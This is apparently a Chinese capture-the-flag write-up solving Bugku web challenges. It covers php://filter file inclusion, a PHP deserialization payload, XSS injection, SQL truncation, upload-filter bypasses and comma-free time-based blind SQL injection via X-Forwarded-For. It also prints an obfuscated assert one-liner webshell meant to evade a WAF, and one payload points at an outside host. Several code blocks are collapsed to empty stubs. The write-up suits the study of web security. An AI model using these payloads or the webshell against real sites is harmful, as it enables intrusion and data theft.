







输入密码查看flag
1 | # -*- coding: utf-8 -*- |
web6(脚本类)
快速post上一个服务器响应的flag属性
1 | import requests |
flag在index里面（文件读取）
payload:
1 | http://120.24.86.145:8005/post/index.php?file=php://filter/convert.base64-encode/resource=index.php |
1 | <html> |
never give up(302跳转)
1 | <script>window.location.href='http://www.bugku.com';</script> |
抓包获取源码之后，直接访问http://120.24.86.145:8006/test/f4l2a3g.txt，得到flag{tHis_iS_THe_fLaG}
welcome to bugkuctf(代码审计)
1 | $user = $_GET["txt"]; |
payload：
http://120.24.86.145:8006/test1/?txt=http://45.76.174.96/y&file=php://filter/read=convert.base64-encode/resource=hint.php
或者：
http://120.24.86.145:8006/test1/?txt=php://input&file=php://filter/read=convert.base64-encode/resource=hint.php
body内提交welcome to the bugkuctf
file_get_contents函数可以读取url链接的内容，或者php input数据流的内容
读取hint.php:
1 |
|
读取index.php
1 |
|
http://120.24.86.145:8006/test1/?txt=php://input&file=hint.php&password=O:4:"Flag":1:{s:4:"file";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}
file参数一开始是用来本地包含漏洞读取文件的，之后需修改为hint.php，原因:
1 | include($file); |
读取flag的姿势 file_get_contents(“php://filter/read=convert.base64-encode/resource=flag.php”)
XSS注入
输入的id值，经由document.getElementById(“s”).innerHTML=s，输入到body中，虽然不知道为什么不弹窗，但是_key_值却是在源码中可以查看到的。
payload:http://103.238.227.13:10089/?id=\u003cscript\u003ealert(_key__27)\u003c/script\u003e

或者payload：http://103.238.227.13:10089/?id=\u003cimg%20src=1%20onerror=alert(_key_)\u003e
成功弹窗

login1（SQL约束攻击）
SQL 约束用于规定表中的数据规则。如果存在违反约束的数据行为，行为会被约束终止。
知识点:
INSERT截断：这是数据库的一个特性，当设计一个字段时，我们都必须对其设定一个最大长度，比如CHAR(10)，VARCHAR(20)等等。但是当实际插入数据的长度超过限制时，数据库就会将其进行截断，只保留限定的长度。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22MariaDB [temp]> select * from users where username="hades ";
+----------+-------------+
| username | password |
+----------+-------------+
| hades | my_password |
+----------+-------------+
1 row in set (0.01 sec)
MariaDB [temp]> select * from users where username="hades 1";
Empty set (0.00 sec)
MariaDB [temp]> insert into users values("hades 1",'any_pass');
Query OK, 1 row affected, 1 warning (0.00 sec)
MariaDB [temp]> select * from users;
+---------------------------+-------------+
| username | password |
+---------------------------+-------------+
| hades | my_password |
| hades | any_pass |
+---------------------------+-------------+
2 rows in set (0.00 sec)数据库字符串比较：在数据库对字符串进行比较时，如果两个字符串的长度不一样，则会将较短的字符串末尾填充空格，使两个字符串的长度一致，比如，字符串A:[String]和字符串B:[String2]进行比较时，由于String2比String多了一个字符串，这时MySQL会将字符串A填充为[String ]，即在原来字符串后面加了一个空格，使两个字符串长度一致。看如下两条查询语句：
1
2select * from users where username='Dumb'
select * from users where username='Dumb '它们的查询结果是一致的，即第二条查询语句中Dumb后面的空格并没有对查询有任何影响。因为在MySQL把查询语句里的username和数据库里的username值进行比较时，它们就是一个字符串的比较操作，符合上述特征。
应用场景：
我们把利用场景设在用户登陆的地方，假如有用户[Dumb]，我们想要使用他的账号登陆，但是我们又不知道他的密码，那么我们可以注册一个名字叫[Dumb done]的用户，即在目标用户名的后面加一串空格（==注意：空格后需再跟一个或多个任意字符，防止程序在检查用户名是否已存在时匹配到目标用户==），空格的长度要超过数据库字段限制的长度，让其强制截断。
参考:基于约束的SQL攻击
题解：
点击到注册页面，如果注册admin，会提示admin已存在，利用SQL约束攻击

存入数据库的为admin，所以利用admin，注册密码登录，得到flag。

过狗一句话
1 | $poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; $poc_2($_GET['s']) |
知识点1
assert(mixed assertion): 如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。
getcwd(): 返回当前的工作目录，注意是返回并不打印……
glob(): 返回匹配指定模式下的文件名或目录
show_source(): 对文件进行语法高亮显示，是highlight_file的别名
scandir(): 返回指定目录中文件和目录的数组，结合var_dump打印出来
opendir(): 打开目录，然后读取其中的内容(打开目录句柄)
readdir(): 返回目录中的条目
知识点2
猜测index.php就是shell，所以先测试
http://120.24.86.145:8010/index.php?s=phpinfo()
测试成功，于是构造payload:
http://120.24.86.145:8010/index.php?s=var_dump(scandir(getcwd()))http://120.24.86.145:8010/index.php?s=var_dump(scandir('.')http://120.24.86.145:8010/index.php?s=system('ls')尝试能否执行系统命令，执行失败，猜想可能是权限问题http://120.24.86.145:8010/index.php?s=print_r(glob("*.*"))

读取flag.txt
http://120.24.86.145:8010/index.php?s=show_source("xyz.php")http://120.24.86.145:8010/index.php?s=highlight_file("./xyz.php")http://120.24.86.145:8010/flag.txthttp://120.24.86.145:8010/index.php?s=var_dump(file("xyz.php"))file函数是没有办法读取php文件内容的，服务器会对结果进行解析。

各种绕过呦
1 |
|

web6
1 |
|
知识点
- extract 可以将$_GET数组的值转为变量，默认是如果有冲突，则覆盖已有的变量。
- ==File_get_contents() 利用php://input绕过==。

上传题
上传题。 各种方法尝试。发现是后缀名黑名单检测和类型检测
php别名：php2, php3, php4, php5, phps, pht, phtm, phtml 均试下。
发现php5绕过
上面的Content-Type的值 大小写绕过
延时盲注
题目源码：
1 |
|
要点1
科普X-forwarded-for
X-Forwarded-For（XFF）是用来识别通过HTTP代理或负载均衡方式连接到Web服务器的客户端最原始的IP地址的HTTP请求头字段。
因此在Web安全中，用户的ip是可以通过X-forwarded-for进行伪造的……
要点2
头脑风暴：没有报错，没有回显，没有bool，只有延时。
延时盲注测试：
1 | x-forwarded-for: 10.20.0.12'+sleep(5) and '1'='1 |
不能有逗号，所以IF函数就不能用了，那用另外一个：
1 | select case when (条件) then 代码1 else 代码 2 end |
把判断搞定了，但是怎么截取字符串呢？ 截取字符串函数substring函数的参数需要用逗号隔开…
要点3
SQL注入绕过逗号小姿势(注意：子查询的select查询总是使用圆括号括起来。
1 | select substring((select user()) from 1 for 1); #第一种方法 |
构造payload
判断搞定！截取字符串搞定！接下来就是构造payload了
1 | insert into client_ip (ip) values ('ip'+(select case when (substring((select user()) from 1 for 1)='e') then sleep(3) else 0 end)); --第一种payload |
python脚本
1 | import requests |
扩展
IF(exp1,exp2,exp3)
如果 expr1 是TRUE (expr1 <> 0 and expr1 <> NULL)，则 IF()的返回值为expr2; 否则返回值则为 expr3。IF() 的返回值为数字值或字符串值，具体情况视其所在语境而定。
函数简介：
SUBSTRING(str,pos) , SUBSTRING(str FROM pos) SUBSTRING(str,pos,len) , SUBSTRING(str FROM pos FOR len)
不带有len 参数的格式从字符串str返回一个子字符串，起始于位置 pos。带有len参数的格式从字符串str返回一个长度同len字符相同的子字符串，起始于位置 pos。 使用 FROM的格式为标准 SQL 语法。也可能对pos使用一个负值。假若这样，则子字符串的位置起始于字符串结尾的pos 字符，而不是字符串的开头位置。
TODO…